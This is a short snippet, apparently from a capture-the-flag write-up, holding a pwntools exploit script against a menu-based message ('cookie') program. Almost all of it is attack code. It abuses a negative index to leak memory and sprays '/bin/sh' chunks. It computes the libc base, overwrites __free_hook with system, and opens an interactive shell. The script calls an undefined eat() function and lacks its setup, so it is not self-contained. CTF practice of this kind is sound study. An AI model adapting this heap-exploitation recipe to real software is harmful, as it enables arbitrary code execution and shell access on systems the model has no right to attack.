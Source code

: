 ```python=
def create(size, data):
    p.sendlineafter(">", '2')
    p.sendlineafter("How long is the message?", str(size))
    p.sendlineafter("Input your message:", data)
def edit(idx, data):
    p.sendlineafter(">", '3')
    p.sendlineafter("Which cookie?", str(idx))
    p.sendafter("New Message:", data)
def show(idx):
    p.sendlineafter(">", '4')
    p.sendlineafter("Which cookie?", str(idx))

#print(p.recvline())
show(-11)
p.recv(7)
target = u64(p.recv(6).ljust(8, b'\x00')) + 0x80
info(f"target: {hex(target)}")
for i in range(27):
    create(0x88, b"/bin/sh\x00")

# #input()
edit(-11, p64(target))
edit(-11, p64(target-0x68))
show(5)
p.recv(8)
#input()
libc_base = u64(p.recv(6).ljust(8, b'\x00')) -0x3ec760
info(f"libc_base: {hex(libc_base)}")
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']
edit(-11, p64(free_hook))
edit(5, p64(system))
print("hi")
eat()


p.interactive()
```
